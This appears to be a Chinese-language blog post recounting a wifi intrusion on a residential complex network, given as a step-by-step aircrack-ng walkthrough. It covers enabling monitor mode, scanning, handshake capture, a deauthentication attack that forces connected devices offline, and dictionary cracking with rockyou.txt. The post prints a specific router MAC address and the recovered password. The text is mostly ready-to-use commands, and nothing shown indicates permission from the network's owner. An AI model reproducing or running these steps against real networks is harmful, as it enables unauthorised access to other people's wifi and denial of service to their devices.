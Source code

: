 ```yaml
---
title: 记一次对小区wifi渗透
date: 2023-08-03 21:43:26
categories: "网络安全"
tags: "网安"
---
```

# wifi渗透(一)

### 第三步——检查并开启网卡的监听功能

airmon-ng：检查网卡是否支持监听功能的

![image-20220206191950754](https://picture.gotarget.top//image-20220206191950754.png)

airmon-ng start wlan0mon ：激活无线网卡的监听模式

![image-20220206192030956](https://picture.gotarget.top//image-20220206192030956.png)

### 第四步——扫描周边wifi信号

airodump-ng wlan0mon ：扫描当前周边环境的WiFi信号

![image-20220206192404063](https://picture.gotarget.top//image-20220206192404063.png)

**注意：找到你要破解的wifi信息，记住它的BSSID和CH,后面要用！**

### 第五步——抓包

下面里的部分信息根据自己的情况进行替换

抓包命令：airodump-ng -c ==CH号码== --bssid ==BSSID号码== -w /home/kali/桌面/handshake wlan0mon

**注意：**

```
-w后接抓包后得到的文件保存路径和名称，注意路径！ 我的用户名是kali，你的填你自己的
```

![image-20220206192728797](https://picture.gotarget.top//image-20220206192728797.png)

**注：这种方式是一种被动等待的方式，所以我们需要将链接在该wifi上的设备踢下线，以便我们快速抓包。**

**这里我们需要记下BSSID(WIFI路由地址)和STATION（链接设备号），接下来我们将该设备从该wifi链接状态下强制踢下线**

### 第六步——打掉连接

ACK 死亡攻击：aireplay-ng -0 10 -a BSSID号 -c STATION号 wlan0mon

```
10——是攻击次数，一般10次就足够我们抓到包了，如果将次数调整的很大，那么就会持续的进行攻击，导致该设备长期无法链接到该wifi!
```

**注：这样做将会导致连接在该wifi上的设备被强制下线，然后因为wifi的自动重连机制，使得我们可以快速抓到包**。

![image-20220206193900205](https://picture.gotarget.top//image-20220206193900205.png)

### 最后一步——破解

#### 破解语法：

aircrack-ng -w <指定字典> -b <目的路由MAC地址> <抓到的握手包>

**注**：目的路由MAC地址——就是BSSID 抓到的握手包——cap文件

#### kali自带字典：

aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 78:72:5D:E0:BC:37 /home/kali/桌面/handshake-0*.cap

**需要先解压**：gzip -d /usr/share/wordlists/rockyou.txt.gz

#### 自我指定字典：

aircrack-ng -w /home/kali/password.txt -b 78:72:5D:E0:BC:37 /home/kali/桌面/handshake-0*.cap

### 成功！

![image-20220206164700961](https://picture.gotarget.top//image-20220206164700961.png)

破解的wifi密码就为a123456789

